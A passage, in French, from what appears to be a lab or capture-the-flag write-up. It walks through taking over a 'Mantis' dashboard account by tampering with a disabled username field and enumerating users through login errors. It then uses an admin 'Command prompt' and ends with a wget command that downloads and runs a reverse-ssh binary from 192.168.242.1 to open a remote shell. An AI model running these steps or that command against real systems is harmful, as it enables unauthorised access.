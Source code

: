 Une fois connecté, on tombe sur un dashboard évolué avec un logo sous-titré `Mantis`.

J'ai fait une rechercher par image sur Google et je suis tombé sur ce post [Instagram](https://www.instagram.com/codedthemes/reel/DBYdJKIvqtr/).

Il s'agit juste d'un panel par un site de webdesign, le backend est à la charge de l'utilisateur.

Sans trop de surprise la majorité des liens sur le dashboard ne mènent nulle part. Il y a tout de même une section "Edit profile" avec ce formulaire :

```html
<form id="editProfileForm" enctype="multipart/form-data">
      <label for="username">Username:</label>
      <input type="text" id="username" name="username" value="SpongeBob" disabled="">

      <label for="email">Mail:</label>
      <input type="email" id="email" name="email">

      <label for="profile_picture">Avatar</label>
      <input type="file" id="profile_picture" name="profile_picture" accept="image/*">

      <label for="password">New Password (Optional):</label>
      <input type="password" id="password" name="password">

      <div class="form-buttons">
        <button type="submit" class="submit-btn">Save</button>
        <button type="button" class="close-btn" onclick="document.getElementById('editProfileDialog').close();">Cancel</button>
      </div>
    </form>
```

Ça ne m'a pas sauté aux yeux initialement, mais le username fait partie des champs du formulaire. Bien sûr dans le HTML il est `disabled` mais à partir du moment où le champ à un attribut `name` alors c'est envoyé.

Dès lors, on peut supposer qu'on peut changer le compte de n'importe quel utilisateur en modifiant ce champ (via les devtools du navigateur).

Il y a une autre section `Send message` et on trouve quelques noms :

```
Cristina danny
Aida Burg
Administratro
```

Seul le dernier compte est valide, on peut vérifier son existence avec les messages d'erreurs de la page de login.

Une fois le mot de passe changé et la connexion effectuée, je remarque que cet utilisateur dispose d'une entrée "Command prompt" dans son dashboard. Je saisis `id` et j'obtiens :

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Je passe ensuite à un shell évolué via `reverse-ssh` :

```bash
cd /tmp;wget http://192.168.242.1:8000/reverse-sshx64;chmod 755 reverse-sshx64;nohup reverse-sshx64&
```
